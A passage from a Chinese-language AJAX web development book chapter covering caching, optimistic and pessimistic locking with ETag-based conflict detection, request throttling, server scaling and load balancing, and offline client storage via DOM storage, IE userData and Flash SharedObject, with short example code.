<cfheader name="Expires"
         value="#GetHttpTimeString(DateAdd('m', 1, Now()))#">
```


> ¹ http://www.mnot.net/cgi_buffer/

网络上有很多优秀的资源提供了用于检查网站缓存能力的工具，这对于理解网站各部分如何缓存非常有帮助。²

## 数据库中的缓存

大多数现代数据库也提供了缓存查询结果的机制，当数据库包含很少变化的表且常见相同查询时，这可以大大提高性能。

### MySQL

在 MySQL 中，`SELECT` 语句的缓存结果是与该 `SELECT` 语句的文本关联的，当一个已经满足过的查询再次重复时，结果将从缓存中发送。然而，结果仅在表保持不变时才会被缓存，每当表被修改时，任何从该表检索数据的 `SELECT` 语句都会从缓存中清除。MySQL 查询缓存不适用于预处理语句，使用服务器端预处理语句的应用程序无法从查询缓存中受益，不过，仅包含静态文本的存储过程确实会被缓存，因为每次调用存储过程时底层的 SQL 语句是相同的。使用临时表的查询也无法从缓存中受益。³

MySQL 还具有数据缓存，其中常用的数据项被保存在缓存中以便快速检索。表索引和键存储在 RAM 中的键缓存中以实现快速检索，并且这些缓存的大小可以在服务器设置中进行配置。MySQL 还有一个内存/堆存储后端，可用于将整个表存储在 RAM 中，但这在实践中很少使用，因为数据库仅存在于服务器运行期间。

### MS SQL Server

MS SQL Server 中的缓存比简单地缓存查询结果要强大得多。在 MS SQL 中，许多不同的内部对象被缓存以加速相同甚至在某些情况下相似的查询。表的某些部分或整个表将被缓存到数据缓冲区中，而在查询发出时生成的查询计划的某些部分则存储在过程缓存中。通过这种方式，可以为频繁使用的操作避免诸如从磁盘检索表或生成最优查询计划等开销较大的操作。对于使用复杂数据库查询的应用程序，响应查询所需的大部分时间都花在生成查询计划上。由于访问表中的数据是最昂贵的操作，服务器会花费相当多的时间来确保数据访问以最佳方式进行，而智能查询规划可以将数据库性能提高几个数量级。因此，缓存查询计划的某些部分可以大大提高数据库性能。存储过程的执行计划在首次使用后也会被缓存，并且对于使用 MS SQL 作为数据库的高性能 Web 应用程序，推荐使用存储过程。

### Oracle

在 Oracle 中，缓存与 MS SQL 类似。数据和执行计划都会被缓存。Oracle 和 MS SQL 都提供了查看缓存性能的工具，并且通常通过调整 SQL 查询以最大化利用缓存可以实现很大的性能提升。

## 更新服务器模型：并发

对于所有 Web 应用程序，并发是服务器上的一个主要问题。并发问题是指单个资源同时被多方请求的问题。AJAX 通过鼓励更多、小型、增量的服务器调用加剧了这个问题，显然，随着对资源请求数量的增加，多个客户端访问公共资源的可能性也会增加。不幸的是，这个问题没有银弹或通用解决方案，它取决于具体的应用程序。在创建新解决方案之前，应该考虑一些常用的解决方案。

最常见的并发问题出现在当你的应用程序允许用户请求一段数据、对其进行修改，然后将更改存储回数据库时。假设有两个人请求同一段数据，然后第一个人对数据进行了一些更改并将其保存回服务器。同时，另一个用户进行了一些不同的更改并尝试保存这些更改。大多数简单的 Web 应用程序会让第二次更新覆盖第一次，只有下一个访问该数据的人才会看到第二个用户的更改。因此，如果示例中的数据是我们订单管理应用程序中的一位客户，第一个人编辑名字，第二个人编辑姓氏，那么结果将是第二个人保存她的更改后，名字将恢复为原始值。本质上，第一个人的更新完全丢失了。

### 悲观锁

解决这个问题最简单的方案是使用独占资源锁，也称为预留签出或悲观锁。当用户使用资源时，它就被置于锁定状态，其他用户对该资源的请求要么被拒绝，要么被放入队列等待直到资源解锁。这个解决方案对于某些应用程序来说可能是完美的，在这些情况下，一次只有一个人访问资源是有意义的，但对于许多应用程序来说，这根本不是一个好方案。锁定的问题在于，通常请求资源不是为了修改而只是为了查看。对于许多应用程序，例如我们的订单管理示例，大多数用户只是查看订单列表中的条目，并发查看资源不会造成问题。更复杂的问题是，如果用户在使用后没有正确解锁资源，锁定可能会变得过时。用户可能会在持有时关闭浏览器，或者只是让浏览器打开然后去做其他事情。在这两种情况下，其他用户都无法访问该资源，即使它并未被使用。管理锁并不像最初看起来那么简单。

### 只读锁

锁定方案可以通过允许其他人在资源被锁定时以只读状态访问资源来改进。这仍然无法帮助我们解决过时锁的问题，因此对于许多应用程序来说，这仍然不是一个足够的解决方案。我们也可以完全避免锁定，但跟踪谁访问了该资源，并提醒其他人该资源当前正被另一个用户使用，从而让他们决定是否应该进行更改。

### 乐观锁

处理并发问题的另一种方法使用了一种称为“带自动检测的非预留签出”（UCAD）或乐观锁以及在签入时手动解决冲突的技术。此技术不使用锁；因此，标题中的非预留签出部分允许任何人访问资源，但在你尝试更新时提供了一种确定资源是否已被其他人修改的方法。如果自检索以来没有人修改过资源，你可以简单地签入你的更改，一切都没问题。如果自首次检索以来有人修改了该资源，则必须采取某些操作来解决你想要存储的数据与数据库中现有数据之间可能存在的任何冲突。

### 冲突识别

对于 Web 应用程序，与其重新发明轮子并创建自定义方式来通知 AJAX 客户端其待保存的数据不是最新的，我们可以借助 HTTP 1.1 标准。假设我们使用符合 HTTP 1.1 的 Web 服务器，我们可以使用 `ETag` 或 `Last-Modified` 头来确定资源自上次检索以来是否已更改。服务器可以跟踪每个资源的版本号并将其作为 `ETag` 发送，或者维护资源最后修改的时间戳并将其作为 `Last-Modified` 值发送。当我们从服务器检索资源时，该资源的 `ETag` 或 `Last-Modified` 值也可以作为对象元数据返回。使用这种方法，在我们保存在客户端对数据进行的更改之前，可以向服务器发送一个 HTTP `HEAD` 请求——这开销很小——只是为了检查 `ETag` 或 `Last-Modified` 头的值是否已更改。如果未更改，我们就可以继续发送数据到服务器进行保存。如果 `ETag` 或 `Last-Modified` 头的值与我们预期的不同，我们就必须进入冲突解决阶段。请记住，即使你确实向服务器发送了 `HEAD` 请求，在服务器响应和我们发送更新之间的这段时间内，我们的数据也可能已更新。

我们的 `HEAD` 请求与服务器收到实际 `POST` 请求之间的时间差。这里概述了一种使用 HTTP 标准进行冲突识别和解决的优雅方法。

```javascript
entAjax.HttpRequestConcurrency = function() {
    this.onConflict = new entAjax.Event();
    this.onSuccess = new entAjax.Event();
    this.etags = {};
}
```

```javascript
entAjax.extend(entAjax.HttpRequestConcurrency,
    entAjax.HttpRequest);
```

```javascript
entAjax.HttpRequestConcurrency.prototype.load = function() {
    entAjax.HttpRequestConcurrency.base.get.call(this);
}
```

```javascript
entAjax.HttpRequestConcurrency.prototype.save = function(Obj) {
    var head = [{"If-Match": this.etags[Obj.version]}];
    entAjax.HttpRequestConcurrency.base.post.call(this, data, head);
}
```

```javascript
entAjax.HttpRequestConcurrency.prototype.getComplete = function(objectFactory) {
    if (this.httpObj.readyState == 4) {
        if (this.httpObj.status == "200") {
            var Obj = objectFactory.deserializeFromXhr(this.httpObj);
            this.etags[Obj.version] = xhr.getResponseHeader("ETag");
            entAjax.HttpRequestConcurrency.base.getComplete.call(this);
        }
    }
}
```

```javascript
entAjax.HttpRequestConcurrency.prototype.postComplete = function(objectFactory) {
    if (this.httpObj.readyState == 4) {
        if (this.httpObj.status == 204) {
            // Save succeeded
            this.onSuccess.notify(this.getCallbackParams());
        } else if (this.httpObj.status == 412) {
            // The ETag didn't match, so enter conflict resolution phase.
            this.onConflict.notify(this.getCallbackParams());
        }
    }
}
```

在我们的示例中，我们使用了 `If-Match` 请求头。`If-Match` 请求头指定了预期的 ETag。Web 服务器的正确行为应该是获取 `If-Match` 请求头，并检查它是否与该请求的响应中的 ETag 相匹配。在我们的场景中，服务器会检查 ETag 以确定它是否与资源的当前版本相对应。如果 ETag 是最新的，则应保存新数据，并向客户端返回 204（No Content）响应。否则，应生成 412（Precondition Failed）响应。在客户端，我们检查这个 412 响应，如果确实如此，我们就必须进入冲突解决阶段。

以下是一些实现服务器端的 PHP 代码：

```php
<?
if ($_SERVER['REQUEST_METHOD'] == "GET") {
    $contact = getContact($_GET['id']);
    header('ETag: ' . $contact->version);
    echo($contact->to_xml());
} elseif ($_SERVER['REQUEST_METHOD'] == "POST") {
    $contact = deserializeContact($HTTP_RAW_POST_DATA);
    if ($_SERVER["HTTP_IF_MATCH"] == $contact->version) {
        saveContact($contact);
        header('HTTP/1.1 204 No Content');
    } else {
        header('HTTP/1.1 412 Precondition Failed');
    }
}
?>
```


## 冲突解决

既然我们了解了如何检测冲突，那么如何解决它们呢？这个问题的答案同样取决于应用程序。解决冲突最常见的方法是向用户展示她的版本和服务器上的更新版本，并允许用户决定她最终提交的版本保留哪些属性。用户可以手动合并两个版本，然后向服务器提交最终版本，确认存在冲突但已解决。请记住，在繁忙的系统中，自用户确定存在冲突以来，服务器上的版本可能又已被更新，因此每次用户向服务器提交数据时，都需要始终检查冲突。

处理数据并发和 AJAX 最困难的方面在于，应用程序的表示层和客户端层在设计时必须考虑到数据并发问题。我们需要了解在不同情况下访问的数据类型，并正确权衡在客户端提供经过深思熟虑的可用冲突解决功能的价值，与简单地从服务器返回一个晦涩的错误消息并说"请重试"之间的取舍。就企业应用程序而言，数据通常分为三种类型：

- **静态数据**——这是像国家列表这样的数据。这里的冲突解决优先级较低，因为数据很少（如果有的话）发生变化。
- **流数据**——这种数据输入一次就被遗忘。同样，冲突很少发生，因为我们主要关注将数据插入数据库，而不是更新。
- **实时数据**——这种数据一直被创建和编辑。对于这种类型的数据，我们还需要考虑锁定应该是乐观的还是悲观的。当数据请求量很大时，乐观锁定通常是一个好主意，以防止陈旧的锁；而当数据完整性至关重要且请求量较低时，悲观锁定是更好的选择。

### 自动冲突解决

另外，冲突通常可以在服务器端以自动方式处理。这是因为两个用户会修改数据的不同部分，因此服务器需要自动合并这两个更改。这要求服务器跟踪资源的先前版本，然后执行某种差异算法来确定每个用户做了哪些更改。如果两个用户同时修改资源，但每个用户更改的是数据的不同部分，则没有发生真正的冲突，服务器可以在用户提交更新时简单地合并这些更新。只有当两个用户修改数据的完全相同部分时，即两个用户同时更新客户的名字，才会出现问题。在这种情况下，需要采用手动冲突解决方案。

## 节流

节流是一种确保应用程序架构的各个部分（如 Web 服务器）不会因限制其在指定时间段内服务的请求数量而过载的方法。随着我们向 Web 应用程序添加更多功能，我们通常允许它按需访问更多服务器资源，以减少应用程序的初始加载时间，并允许它在不刷新整个页面的情况下运行。这使得客户端负责何时发出请求以及频率如何。这可能与我们使用 AJAX 的初始目标相悖，其中之一是通过仅向客户端应用程序提供必要的数据，并通过在多个请求之间分散负载，而不是在一个巨大的响应中发送整个页面，来减少整体负载。如果我们不注意客户端与服务器的通信方式，我们的服务器负载可能会更多，而不是更少。

### 客户端

我们可以使用一些简单的策略在客户端实现节流。例如，考虑在线表单中的自动完成字段，客户端应用程序将已输入字段的文本片段发送到服务器，服务器返回可能的建议，提示用户可能想要输入的内容。最简单的方法是每次用户按键时都发送请求，但如果有人在文本框中输入 20 个字符的短语，我们就会有 20 个单独的请求，每个字符一个，如果用户知道她想输入什么，这些响应都不会被使用。如果用户打字很快，所有 20 个请求都可能在几秒钟内发出，给服务器带来相当大的负载，尤其是如果我们的用户不是唯一使用该应用程序的人。

解决方案是使用节流，限制何时发送请求，或者走极端路线，使用显式提交，让用户控制何时发送请求。我们的示例非常适合节流，所以让我们来看看如何对请求进行节流。

节流有多种策略。本质上，我们将在客户端将请求排队，然后一次性发送，或者决定哪些仍然相关，只发送那些。一般来说，可用的选项如下：

- 使用固定大小的队列，当队列满时发送请求
- 使用动态大小的队列，在预定的时间间隔发送请求
- 使用动态大小的队列，在响应特定事件时发送请求
- 使用单个 `XHR` 对象，如果在一定时间内没有其他请求尝试，则发送请求
- 这些想法的某种组合

对于我们的示例，等待用户停止输入后再发送请求是有意义的，因为等到收到响应时，她已经输入了更多字符，使先前的响应无效。在这种情况下，选项 #4 似乎最合理。我们可以通过使用 JavaScript 定时器来实现这一点，每次按键时重置它。如果定时器到期，我们可以发出请求；否则，如果按下了键，我们可以重置定时器并再次等待。如果我们将定时器设置为大约 ½ 秒，我们仍然可以拥有一个响应极快的客户端，而不会用请求轰炸服务器。同样，必须做出权衡，因为每次按键都发出请求可以使用户体验稍微更流畅，但代价是服务器负载。

我们可能遇到的另一个问题是请求的带宽问题。假设我们想为应用程序中的产品描述字段提供拼写检查。我们可以频繁地将字段的全部内容发送到服务器以提供实时拼写检查，但如果用户在字段中输入大量描述，需要来回发送的文本量可能会迅速增加。带宽是

除了内网应用之外，网络带宽通常并不充裕，因此，控制带宽使用也是节流机制的另一个重要方面，因为更少的请求意味着更少的带宽占用和更流畅的应用体验。虽然实时拼写检查可能不错，但考虑到可能节省的带宽，让用户主动发起拼写检查请求或许是一个更好的选择。

### 服务器

服务器端也可以实施节流，但这通常要困难得多。最常见的服务器端节流方式是使用服务质量（QoS）机制，例如流量整形。这些方案的通用性更强，但可以根据请求或响应的 QoS 指标，对不同类型的请求或响应进行差异化处理。这使得某些请求或响应能够在网络繁忙时获得优先处理，并且可以限制客户端在特定时间段内的请求数量。通常，QoS 在网络协议层实现，并需要借助路由器、负载均衡器等专用设备才能正常运作。因此，它通常用于流量极高的网站，更适用于 VoIP 或专用网络服务。然而，也可以将其集成到高流量的 AJAX 应用中，将性能提升到新的水平。在服务器负载过高的情况下，扩展规模通常是更简单的解决方案。随着廉价计算资源的普及，扩展服务器集群通常比实施流量整形和 QoS 更简单、更经济。

## 扩展

虽然许多企业应用部署在防火墙之后，但也有一些是面向公众的 Web 应用，例如电子商务应用甚至 CRM 系统。对于面向公众的 Web 应用，扩展性是一个重要的考量因素；对于可能因员工快速增长而导致防火墙后应用性能需求提升的中小型企业来说，从一开始就考虑扩展性建设同样重要。无论如何，大多数 Web 应用（包括 AJAX 应用）都必须设计成能够随着用户数量的增加而扩展。向上扩展，也称为纵向扩展，是指通过增加更多资源（如 RAM 或硬盘）来提升服务器性能；而向外扩展，或横向扩展，则是指增加更多服务器系统。这两种扩展方式都很重要，在解决服务器应用性能问题时通常都会用到。

任何应用都可以通过投入更多资源轻松实现向上扩展，但要实现向外扩展，应用本身必须构建得允许这种扩展性。构建 Web 应用最重要的第一步，是将应用服务器和数据库服务器分离到不同的机器上。与设计应用时必须做出的任何决策一样，越早将这些因素纳入开发过程，就越容易整合。因此，从系统设计之初就应该考虑可扩展性。如果我们从一开始就把系统设计成仿佛将在一个拥有众多应用和数据库服务器的大型服务器集群上运行，那么随着用户数量的增长，我们就可以扩展应用，即使 Web 应用突然涌入大量用户，也不会面临巨大的难题。

将应用服务器和数据库服务器分离相当简单，通常是向外扩展 Web 应用的第一步。任何应用服务器框架（如 ASP.NET、ColdFusion 或 PHP）都使得将数据库服务器设置为与应用服务器不同的机器变得轻而易举。因为处理客户端请求的是应用服务器而非数据库服务器，所以我们通常将数据库服务器放置在一个单独的内部网络中，该网络仅连接应用服务器，而不与外部世界相连。这大大提高了我们服务器的安全性。通过高速专用网络连接数据库和应用服务器，我们可以确保性能最大化。

随着流量进一步增加，我们可以通过将职责分配到更多机器上来进一步向外扩展。通常，应用服务器提供两类元素：动态元素和静态元素。静态元素通常是图片、脚本、样式表和一些 HTML 页面。提高性能的一种方法是使用专用服务器来提供静态元素服务。这样，静态 Web 服务器可以针对服务静态元素进行优化，动态 Web 服务器可以针对服务动态元素进行优化。这大大减轻了动态服务器的负载，并加快了静态元素的访问速度，从而提升了整个应用的性能。我们可以进一步划分职责，让一台服务器处理与登录和账户信息相关的复杂操作（这些操作可通过 SSL 连接完成），另一台服务器承载应用的其余部分。

## 负载均衡与集群

随着服务器负载的增加，可能需要进一步向外扩展，而且我们并不总是能将职责划分到越来越多的服务器上。这时，负载均衡和集群就派上用场了。通过负载均衡，我们有一台服务器接收客户端请求，并将其分发到多个应用服务器。对客户端而言，只有一台服务器，它只与这台服务器通信；然而，在幕后，可能有多台服务器在处理这些请求。通过集群，我们有多台数据库服务器在一个集群中协同工作，将负载分配到各服务器，但对外部世界而言，同样只呈现为一个服务器。

### 应用服务器

负载均衡的 Web 服务器彼此独立工作，由负载均衡器负责决定哪台 Web 服务器处理来自客户端的哪项请求。对于应用服务器来说，这没有问题，因为应用服务器上的数据通常不会在会话间共享。数据库的情况则不同，因为数据库中的数据在许多情况下需要在会话间共享。

对应用服务器进行负载均衡的最大问题在于，大多数 Web 应用需要在服务器上维护某种会话状态。如果不同的服务器处理请求，那么会话状态也必须在服务器之间共享。大多数应用服务器使用文件或系统内存来存储会话状态，而由于这两者都是本地存储机制，数据无法轻松高效地在服务器间共享。有两种解决方案。大多数负载均衡器都提供某种方式将服务器绑定到会话，即可以配置为始终将同一客户端路由到同一台服务器，从而让单台服务器处理整个会话。在这种情况下，应用服务器可以将会话信息存储在本地服务器上，而不会引起问题。第二种解决方案是将会话信息存储在数据库或专门的状态管理服务器上。这种解决方案的可扩展性更好，因为第一种解决方案无法将所有请求分散到各服务器上，只能分散各个会话。大多数应用服务器支持使用会话状态服务器或数据库来存储会话信息。这不仅在进行负载均衡时很重要，而且当每个会话需要在服务器上存储大量信息时，也能显著提升性能。

### 数据库服务器

对于大型应用，单台数据库服务器可能无法独自处理所有负载，增加更多数据库服务器对于扩展应用同样重要。数据库集群主要由数据库软件处理，需要进行适当配置。MySQL 最近投入了大量精力使其 NDB 集群服务器达到生产就绪状态，这为创建作为单一数据库运行的大型服务器集群提供了一种简单方法。⁴ MySQL 集群设置和管理简单，为建立高性能数据库提供了一种经济高效的方式。Oracle、IBM 和 Microsoft SQL 数据库服务器也支持集群，并拥有强大的集群管理工具。

虽然集群可以帮助缓解数据库服务器的负载压力，但如果你的应用瓶颈在于数据库查询耗时过长，那么增加更多集群服务器可能无法解决问题。表分区是大多数现代数据库系统的一项功能，它允许我们根据特定条件拆分单个表。当我们拥有经常需要按范围查询的数据时，例如检索去年一月份的所有销售额，将 10 年数据保存在单个表中并不理想。然而，我们可以将表分区为 1 年段，这样就不需要为了查询 1 个月的数据而打开整个表。对于负载较重的 AJAX 应用，表分区是数据库性能的一个重要方面。

## AJAX 扩展问题

AJAX 应用的设计方式会极大地影响为扩展性而设计的需求。客户端发起的更细粒度的数据请求会对服务器产生重大影响。每个细粒度的私有数据请求都需要请求处理、安全开销和数据访问。在传统应用中，请求数据的各个部分只需认证一次；然而，如果使用 JSF 或 .NET Web 控件，请求处理可能很耗时。数据访问也可能有更多开销，因为它需要重新组装整个页面，而不仅仅是请求的小部分。

## 离线 AJAX

虽然 Web 应用程序通常在连接到 Web 服务器时才能使用，但有时让应用程序能够离线工作对用户来说是有益的。这样做还可以作为应对连接中断或突然断电的一种保障措施。您的应用程序可能用于某些数据录入任务，这些任务可能需要很长时间，用户没有必要在使用应用程序的整个过程中都保持在线。

为了将这个需求提炼成一个现实世界的例子，想象一位商务用户希望在长途飞行期间使用 Web 应用程序。由于没有互联网连接，她可以在飞行期间离线工作，但如果该应用程序依赖于活跃连接怎么办？她需要将一个桌面应用程序用于工作，然后在落地并连接到互联网后以某种方式传输数据。使用离线 AJAX 技术，完全可以实现：

- 允许用户长时间不间断地处理数据集，而无需与服务器同步。
- 保护用户免受互联网连接丢失或突然断电的影响。
- 为用户提供一种"沙盒"方式，或对数据进行长时间处理而不将其保存到服务器。即使会话被中断，恢复工作时也没有必要进行同步。
- 为 Web 应用程序提供一种本地文件存储和服务器端存储的原生方式。

通过将大量处理转移到客户端，我们倾向于创建即使在没有可用服务器连接时也能轻松运行的页面。不幸的是，诸如 XHR 调用之类的东西只有在连接可用时才能工作，但几乎所有其他功能都可以工作。如果我们巧妙地进行缓存，我们通常可以预加载运行页面所需的一切，然后通知用户她可以离线工作。或者，我们可以设置一个按钮或链接，让用户激活以切换到离线模式，在这种情况下，我们可以加载她可能需要的所有数据，并通知她可以安全断开连接。



### 图 6.2 一个离线 AJAX 使用案例

我们还可以通过发出 XHR 调用并检查它们是否成功来确定服务器连接是否可用。如果请求失败，我们可以假设客户端已断开连接，然后进入离线模式。许多 AJAX 应用程序频繁调用服务器，只是为了更新服务器上的状态。这类请求在离线模式下可以轻松排队，然后在应用程序下次在线时执行。这个用例在图 6.2 中进行了说明。启用离线 Web 应用程序时遇到的最大问题是如何存储所有数据。将所有内容存储在 JavaScript 对象中的问题在于，一旦用户离开页面，所有内容都会消失。对于某些类型的操作来说这没问题，但如果我们排队了重要的请求，这些请求必须在客户端下次在线时执行，我们希望使用持久存储机制来存储这些请求，这样无论客户端关闭浏览器还是访问不同页面，下次打开应用程序并在线时，排队的请求都会被处理。还有许多其他情况在客户端拥有持久存储机制也是有用的，因此我们需要了解一些提供这种存储机制的方法。

### Firefox 离线存储

Firefox 在 2.0 版本中通过实现 DOM 存储引入了 Web 应用程序离线存储的概念。DOM 存储是 Web 应用程序 1.0 规范中引入的一组存储相关功能的名称，旨在提供比 Cookie 更好的替代方案。Firefox 中的 DOM 存储有两个主要子组件：`sessionStorage` 和 `globalStorage`。

在 `sessionStorage` 中，可以作为 `window` 对象的属性访问，可以保存仅在页面会话期间可用的数据。页面会话在浏览器打开期间持续存在，并在页面重新加载和恢复期间保持不变。在新标签页或窗口中打开页面会启动一个新会话。尽管 `sessionStorage` 根本不是永久的，但使用 `sessionStorage` 有两个显著好处：

- 数据在页面刷新期间持久存在。这很有用，因为我们可以通过临时缓存用户的未保存数据来帮助防止意外页面刷新。
- 数据在浏览器崩溃期间持久存在。这取决于用户代理，但在 Firefox 的情况下，如果浏览器崩溃并且用户恢复了他之前的会话，`sessionStorage` 区域将被恢复。（继续阅读以了解此注意事项。）

默认情况下，5120 KB 的数据可用于存储，但用户可以自定义。不幸的是，由于 Firefox 2.0 中的一个缺陷，如果浏览器崩溃，`sessionStorage` 无法可靠地检索。这使得 `sessionStorage` 对于离线工作来说相当无用；但是，如果将其用作数据的临时存储，假设用户不会关闭浏览器，它可能会有用。

以下展示了使用 `sessionStorage` 的一个简单示例：

```html
<html>
  <head>
    <script type="text/javascript">
      function saveSession(myparam, myvalue) {
        // will save the attribute myparam with value myvalue
        sessionStorage[myparam] = myvalue;
      }

      function loadSession(myparam) {
        // will retrieve myparam from sessionStorage
        var myresult = sessionStorage[myparam];
        return myresult;
      }
    </script>
  </head>
  <body>
    <h1>sessionStorage Example</h1>
    <p>Type a value down below and click save. Then press load.</p>
    <form id="myform" name="myform">
      <input type="text" id="myvalue" name="myvalue">
      <input type="button" value="Save" onclick="saveSession('myattribute', myform.myvalue.value)">
      <input type="button" value="Load" onclick="alert(loadSession('myattribute'))">
    </form>
  </body>
</html>
```


该规范中对离线工作最有用的部分是 `globalStorage`。这允许将键值对保存到用户的计算机上，默认最大为 5120 KB（与 `sessionStorage` 合并）。理论上，这些存储块可以是公共的或私有的，甚至可以锁定到特定的顶级域名（TLD）。例如，如果我们在 `admin.mysite.org` 域名上构建一个使用 `globalStorage` 的网页，我们需要以下存储对象可用：

- `globalStorage['admin.mysite.org']` —— `admin.mysite.org` 子域名内的所有网页都可以对该存储对象进行读写操作。
- `globalStorage['mysite.org']` —— `mysite.org` 域名下的所有网页都可以对该存储对象进行读写操作。
- `globalStorage['org']` —— 所有 `.org` 域名上的网页都可以对该存储对象进行读写操作。
- `globalStorage['']` —— 所有域名上的网页都可以对该存储对象进行读写操作。

在下面，我们允许用户随意读写 `globalStorage` 对象：

```html
<html>
<head>
<script type="text/javascript">
function saveGlobal(tld, myparam, myvalue) {
    globalStorage[tld][myparam] = myvalue;
}

function loadGlobal(tld, myparam) {
    var myresult = globalStorage[tld][myparam];
    return myresult;
}
</script>
</head>
<body>
<h1>globalStorage Example</h1>

<p>Type a value down below and click save. Then press load. Note: May not be implemented until Firefox 3.0.</p>

<form id="myform" name="myform">
    <input type="text" id="myvalue" name="myvalue">
    <input type="button" value="Save" onclick="saveGlobal('mydomain.com', 'myattribute', myform.myvalue.value)">
    <input type="button" value="Load" onclick="alert(loadGlobal('mydomain.com', 'myattribute'))">
</form>
</body>
</html>
```

需要注意的一个关键点是，Firefox 在 2.0 版本的浏览器中尚未完全实现 DOM 存储。目前，`sessionStorage` 已经实现，但 `globalStorage` 仍然无法使用。有推测称 `globalStorage` 规范部分将在 3.0 版本中启用。与此同时，Firefox 用户可以使用一种形式的永久离线存储：Flash 存储。请跳转到关于离线 Flash 存储的部分以获取相关信息。

### Internet Explorer userData 离线存储

Internet Explorer 中的 `userData` 行为允许开发者以与 Firefox 中 `globalStorage` 类似的方式离线存储数据。Internet Explorer 允许 `userData` 通过写入文件系统存储来实现跨会话的信息持久化。`userData` 存储的容量取决于域的安全区域。表 6.2 显示了基于安全区域，单个文档可用的最大 `userData` 存储量以及整个域的总可用量。

表 6.2 单个文档可用的最大 `userData` 存储量

| 安全区域 | 文档限制 (KB) | 域限制 (KB) |
| :--- | :--- | :--- |
| 本地计算机 | 128 | 1024 |
| Intranet | 512 | 10240 |
| 受信任的站点 | 128 | 1024 |
| Internet | 128 | 1024 |
| 受限站点 | 64 | 640 |

尽管 `userData` 没有加密，但它被锁定在其存储来源的顶级域（TLD）。`userData` 提供的存储空间也少于 `globalStorage` 或 Flash 存储，但它使用起来相当简单，对于 Internet Explorer 开发来说可能是一个不错的选择。启用 `userData` 行为的一种优雅方式是动态创建一个 `<div>` 元素，然后将 `userData` 应用到该 `<div>` 的样式。类似的技术可以用于后续检索数据：

```html
<html>
<head>
<script type="text/javascript">
function saveUserData(myparam, myvalue) {
    var myField = $("storageInput");
    myField.setAttribute(myparam, myvalue);
    myField.save("mydata");
}

function loadUserData(myparam) {
    var myField = $("storageInput");
    myField.load("mydata");
    return myField.getAttribute(myparam);
}
</script>

<style>
.storage {
    behavior: url(#default#userData);
    display: none;
}
</style>
</head>
<body>
<h1>UserData 示例</h1>

<p>在下面输入一个值并点击保存。然后，关闭浏览器并重新打开此页面 - 点击加载。</p>

<form id="myform" name="myform">
    <input type="text" id="myvalue" name="myvalue">
    <input type="button" value="保存" onclick="saveUserData('myattribute', myform.myvalue.value)">
    <input type="button" value="加载" onclick="alert(loadUserData('myattribute'))">
    <div id="storageInput" class="storage"></div>
</form>
</body>
</html>
```

尽管 `userData` 可以为 Internet Explorer 提供一种简单可靠的存储方法，但寻求健壮的跨浏览器解决方案的开发人员可能希望使用 Flash 影片来存储数据。这可以通过 JavaScript 轻松实现。

### 使用 Flash 客户端存储

以跨浏览器方式在客户端持久存储数据的最简单方法是使用 Adobe Flash 对象。因为 Flash 在超过 95% 的浏览器客户端上安装，并且可以在任何现代 Web 浏览器中运行，所以它是开发 Web 应用程序组件的理想平台。从 Flash 版本 6 开始，已经可以使用 `SharedObject` 对象离线存储数据。⁶ 存储在 `SharedObject` 中的数据绑定到客户端浏览的域，其他站点的页面无法访问该站点的数据，但数据对同一站点的任何页面都可用。唯一的限制是，当存储超过 100 Kb 的数据时，系统会提示用户。当用户允许保存后，对于该站点将不再出现进一步的提示。

由于我们可以通过 JavaScript 访问 Flash 影片中的对象，我们可以创建一个 Flash 影片，该影片围绕 `SharedObject` 对象提供一个 API，我们可以通过 `GetVariable()` 和 `SetVariable()` 方法来访问它；或者，如果我们能容忍最低要求为 Flash 插件版本 8，我们可以使用方便的 `ExternalInterface` 技术，该技术支持通过 JavaScript 轻松访问 Flash 对象和方法。在以下浏览器中，使用 JavaScript 调用 `ExternalInterface` 有效：

- Internet Explorer 5.0+ (Windows)
- Netscape 8.0+ (Windows 和 Macintosh)
- Mozilla 1.7.5+ (Windows 和 Macintosh)
- Firefox 1.0+ (Windows 和 Macintosh)
- Safari 1.3+ (Macintosh)

我们首先创建一个新的 Flash 8 影片。（我们可以使用 Adobe.com 提供的 30 天免费试用版。）将影片的像素宽度和高度设置为较小的值，使其实际上不会出现在应用程序 UI 中。然后，选择“动作”面板输入一些 ActionScript 代码，这是用于编写 Flash 影片脚本的基于 ECMAScript 的语言。参见图 6.3 的特写。

### 图 6.3 创建用于 SharedObject 的 Flash 影片

在我们的 ActionScript 中，我们必须导入 `ExternalInterface` 库，然后为 `SharedObject` 存储机制定义我们的加载和保存函数。最后，我们通过调用 `ExternalInterface` 的 `addCallback` 成员并为这些函数命名，使它们可以通过名称从 JavaScript 中访问，从而让这些函数可用，如下所示。

```actionscript
import flash.external.ExternalInterface;

function saveAttribute(datastore, paramname, paramvalue) {
    mySharedObject = SharedObject.getLocal(datastore);
    mySharedObject.data[paramname] = paramvalue;
    mySharedObject.flush();
}

function loadAttribute(datastore, paramname) {
    mySharedObject = SharedObject.getLocal(datastore);
    resultval = mySharedObject.data[paramname];
    return resultval;
}

ExternalInterface.addCallback("saveAttribute", this, saveAttribute);
ExternalInterface.addCallback("loadAttribute", this, loadAttribute);
```

保存并编译影片；然后创建一个新的 HTML 文档，并将影片嵌入到用户看不到的位置。将影片嵌入网页的 HTML 如下所示：

```html
<object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000"
    codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=8,0,0,0"
    width="1"
    height="1"
    id="myStorage"
    align="middle">
    <param name="movie" value="localstore.swf">
    <param name="quality" value="high">
    <param name="bgcolor" value="#ffffff">
    <param name="allowScriptAccess" value="always">
    <embed src="localstore.swf"
        allowScriptAccess="always"
        quality="high"
        bgcolor="#ffffff"
        width="1"
        height="1"
        name="myStorage"
        align="middle"
        type="application/x-shockwave-flash"
